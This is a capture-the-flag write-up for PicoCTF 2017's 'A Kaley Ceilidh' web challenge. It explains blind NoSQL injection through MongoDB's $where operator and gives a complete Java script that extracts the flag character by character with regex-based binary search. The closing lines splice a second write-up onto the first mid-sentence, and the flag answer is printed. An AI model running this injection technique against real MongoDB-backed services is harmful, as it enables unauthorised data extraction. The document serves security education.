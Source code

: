 # PicoCTF_2017: A Kaley Ceilidh

**Category:** Web Exploitation
**Points:** 175
**Description:**

>Everyone loves Scottish food [citation needed], but do you ever wish there were more hipster-y options? Well look no further than a [Kaley Ceilidh](http://shell2017.picoctf.com:8080/).

**Hint:**

>There's not a whole lot you can do on this application. If your normal attacks aren't working, perhaps you need to think bigger. Humongous, in fact.
The server probably won't show you anything that contains a "flag" property.

## Write-up
First we had to realize this Node server utilizes Mongodb (The hint says to think HuMONGOus). This meant that our SQL injection techniques will not work for this. For this we had to use a new type of injection called "no-sql" injection. The problem arises because the server will reject any nested object JSON queries that we make.

At first, it seems totally safe (most special quereies require a nested object construct), except for one. The  `$where`  directive allows you to execute arbitrary filtering code (javascript code). Most APIs are blocked in this javascript sandbox, so we couldn't edit the query and have it return our flag.

However, we still had one bit of data that could give us the flag (indirectly). When the executed javascript runs into an error, the server actually returns  `Error`  instead of an empty query. This allows us to create a narrowline distinction between whether if the flag, say matches a particular pattern, and whether it doesn't. Our solution involves using a binary search using regex as our method of testing whether if the flag matches a pattern.

The Java code that executes this binary search is of below:
```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.HttpURLConnection;
import java.net.URL;

public class Kaley
{
	public static URL web;
	public static boolean test(String flag) throws Exception
	{
		HttpURLConnection conn = (HttpURLConnection)web.openConnection();
		conn.setDoOutput(true);
		conn.setDoInput(true);
		conn.setUseCaches(false);
		conn.setRequestMethod("POST");
		conn.setRequestProperty("Content-Type", "application/json");
		conn.connect();
		
		OutputStream os = conn.getOutputStream();
		OutputStreamWriter osw = new OutputStreamWriter(os, "UTF-8");
		osw.write("{\"$where\": \"if (this.flag && /^flag{" + flag + "[A-Za-z0-9_]*}$/.test(this.flag)) throw 3\"}");
		osw.flush();
		osw.close();
		
		StringBuilder sb = new StringBuilder();
		BufferedReader br = new BufferedReader(new InputStreamReader( conn.getInputStream(),"utf-8"));
		String line = null;
		while ((line = br.readLine()) != null) {
		    sb.append(line + "\n");
		}
		br.close();
		return (sb.toString().equals("Error\n"));
	}
	
	public static char binarySearch(String before, char from, char to) throws Exception
	{
		while (from < to)
		{
			char mid = (char)((from + to) / 2);
			if (test(before + "[" + from + "-" + mid + "]"))
				to = mid;
			else
				from = (char)(mid + 1);
		}
		return to;
	}
	
	public static void main(String[] args) throws Exception
	{
		web = new URL("http://shell2017.picoctf.com:8080/search");
		
		String flag = "";
		for (int i = 0; i < 25; i++)
		{
			char res;
			if (test(flag + "[A-Z]"))
				res = binarySearch(flag, 'A', 'Z');
			else if (test(flag + "[0-9]"))
				res = binarySearch(flag, '0', '9');
			else if (test(flag + "[a-z]"))
				res = binarySearch(flag, 'a', 'z');
			else 
				res = '_';
			flag += res;
			System.out.print(res);
		}
		System.out.println();
		System.out.println("flag{" + flag + "}");
	}

}
```

Therefore, the flag is `flag{I_only_eat_0rg4n1c_flages}`.

Also useful one https://github.com/BOAKGP/CTF-Writeups/tree/master/PicoCTF%202017/Level%204/Web%20Exploitation/A%20Kaley%20Ceilidhrom the clue given, this is a common(_not really_) case of MongoDB exploitation. The basis of this exploit revolves around MongoDB's magical `$where` function followed by a slow bruteforce with time-based blind exploits.

[Python Script](solve.py)

Therefore, the flag is `flag{I_only_eat_0rg4n1c_flages}`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMzg2MjM0MjMxLC0xOTA1NzM5NDM2LC0yNz
c0OTI4OV19
-->
